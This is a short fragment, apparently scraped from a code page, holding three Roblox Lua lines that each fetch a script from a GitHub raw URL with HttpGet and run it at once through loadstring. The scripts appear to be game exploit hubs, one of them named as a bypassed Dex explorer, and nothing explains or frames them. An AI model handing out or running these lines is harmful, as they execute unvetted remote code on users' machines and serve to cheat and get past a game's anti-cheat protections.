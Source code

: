 
loadstring(game:HttpGet("https://raw.githubusercontent.com/EndermanMCgamer/couiner/main/9idk.lua"))()
loadstring(game:HttpGet("https://raw.githubusercontent.com/Babyhamsta/RBLX_Scripts/main/Universal/BypassedDarkDexV3.lua", true))()
loadstring(game:HttpGet("https://raw.githubusercontent.com/KykyryzoB/KykyryzoB-Hub-SB/main/KykryzoB.lua"))()
